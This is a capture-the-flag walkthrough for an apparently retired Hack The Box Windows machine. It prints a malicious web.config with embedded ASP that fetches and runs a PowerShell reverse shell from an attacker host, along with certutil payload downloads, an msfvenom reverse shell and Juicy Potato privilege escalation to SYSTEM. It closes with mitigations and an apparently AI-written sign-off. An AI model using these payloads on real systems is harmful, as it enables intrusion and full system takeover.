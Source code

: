 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
## 🧭 Reconnaissance

### ⚡ Fast Port Scan
```bash
export IP=10.10.10.93
rustscan --ulimit 5000 -a $IP -- -A -sC -oN recon/$IP.scan.rustscan.txt
```

### 📌 Result Summary:
- **Port 80** open (HTTP)
- **Service**: Microsoft IIS 7.5
- **Server OS**: Windows Server 2008 R2

---

## 🌐 [Web Enumeration](HTTP)

### 📁 Directory Enumeration via ShortScan
```bash
shortscan -F http://$IP/
```

### ✅ Discovered Pages:
- `/transfer.aspx` – file upload endpoint
- `/uploadedfiles/` – public directory, potentially for uploaded files

---

## 💣 Exploitation – File Upload Bypass via `web.config`

### 🔍 Goal:
Bypass file extension filtering and achieve **Remote Code Execution** (RCE).

### 🧪 Technique:
1. Used **Burp Intruder** to fuzz file extensions during upload.
2. `.config` was accepted (unexpected but powerful).

### 📝 Malicious `web.config` Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule"
              scriptProcessor="%windir%\system32\inetsrv\asp.dll" 
              resourceType="Unspecified" requireAccess="Write" preCondition="bitness64"/>
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions><remove fileExtension=".config"/></fileExtensions>
            <hiddenSegments><remove segment="web.config"/></hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.72/Invoke-PowerShellTcp.ps1')")
%>
```

---

## 🛰️ Reverse Shell

### 🧪 Using Nishang:
```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.72 -Port 4444" >> Invoke-PowerShellTcp.ps1
updog -p 80  # serve payload
```

### 🧲 Listener (with rlwrap for convenience):
```bash
rlwrap -f . -r nc -nlvp 4444
```

### 🚀 Trigger Shell:
- Upload `web.config` via `/transfer.aspx`
- Visit `/uploadedfiles/web.config` to execute
- ✅ You get a reverse shell as user `merlin`

---

## 🏁 User Flag
```bash
C:\Users\merlin\Desktop> type user.txt
```

---

## 🚀 Privilege Escalation – Juicy Potato

### 📌 Key Privilege:
```bash
whoami /priv
# SeImpersonatePrivilege: Enabled ✅
```

### ⚙️ Transfer Juicy Potato:
```powershell
certutil -urlcache -split -f http://10.10.16.72/JuicyPotato.exe jp.exe
```

### 💣 Generate Reverse Shell (64-bit):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.72 LPORT=443 -f exe -o reverse.exe
```

### 📥 Transfer payload:
```powershell
certutil -urlcache -split -f http://10.10.16.72/reverse.exe reverse.exe
```

---

## 🎯 Execute PrivEsc
```powershell
.\jp.exe -l 1337 -p reverse.exe -t *
```

Start listener:
```bash
rlwrap -f . -r nc -nlvp 443
```

### ✅ Shell as SYSTEM

---

## 🔐 Root Flag
```cmd
type C:\Users\Administrator\Desktop\root.txt
```

---

## 📚 Lessons Learned

### 🔓 Initial Access:
- Exploited **file upload bypass** using `.config` file
- Abused ASP handler config to execute malicious code

### 📈 Privilege Escalation:
- Leveraged **SeImpersonatePrivilege** with Juicy Potato for SYSTEM access

### 🛡️ Mitigations:
- Harden file uploads: restrict extensions, validate contents, isolate directories
- Restrict SeImpersonatePrivilege to trusted services
- Patch critical systems (this was Windows Server 2008 R2 – unpatched!)

---

## 🎥 [VOD Replay](https://www.twitch.tv/deadpool3020/v/2346652668?sr=a&t=6s)

---

Let me know if you'd like this exported as a `.md` or turned into a downloadable report. Ready for the next target? 🧠💀